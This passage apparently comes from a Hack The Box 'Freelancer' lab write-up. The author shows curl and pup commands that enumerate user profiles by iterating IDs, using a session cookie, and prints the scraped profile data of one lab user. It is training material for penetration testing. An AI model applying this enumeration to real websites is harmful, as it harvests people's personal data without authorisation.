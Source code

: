 I will scrap this page with IDs from 1 to 10100 to enumerate usernames but first I need to know where are showed:

```bash
❯ curl -s http://freelancer.htb/accounts/profile/visit/12/ -H "Cookie: sessionid=b0r060kmv3946cnyylp3strymp80ev08; csrftoken=b0r060kmv3946cnyylp3strymp80ev08" | less
```

All the profile information it's inside a div with the class `employers-details-information`

![](/assets/images/Freelancer/Pasted%20image%2020241005094607.png)

I will use the tool `pup` (install it with `sudo apt install pup -y`) to extract all the information inside the div with that class:

```bash
❯ curl -s http://freelancer.htb/accounts/profile/visit/12/ -H "Cookie: sessionid=b0r060kmv3946cnyylp3strymp80ev08; csrftoken=b0r060kmv3946cnyylp3strymp80ev08" | pup 'div.employers-details-information' | pup 'div.information-box h3, div.information-box span, ul.information-list-box li div' | html2text
**** Jonathon.R ****
Jonathon Roman
Address: USA - Las Vegas
Email: jroman1992@gmail.com
Job Title: IT Specialist
Years of Experience: 8
Description: I am an accomplished IT Specia
Joined At: 2022-02-01
```
